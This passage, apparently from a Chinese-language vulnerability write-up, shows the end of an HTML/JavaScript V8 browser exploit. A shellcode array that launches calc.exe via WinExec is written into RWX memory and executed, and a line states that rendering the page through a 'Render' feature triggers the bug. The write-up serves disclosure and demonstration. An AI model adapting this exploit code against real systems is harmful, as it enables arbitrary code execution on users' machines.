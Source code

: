 ```bash
            0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
            0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
            0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
            0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
            0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
            0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
    );

    log("[+] writing shellcode ... ");
    for (let i = 0; i < shellcode.length; i++)
        write(RWX_Mem_Addr + i, shellcode[i]);

    log("[+] execute shellcode !");
    opt_me();
}
pwn();
</script>
</body>
</html>
```

用户在通过 Render 功能渲染页面时触发 v8 漏洞成功执行 shellcode。

![img](assets/1698903994-1f7c3dcc81c12f1890e78e3248ccffe8.jpg)

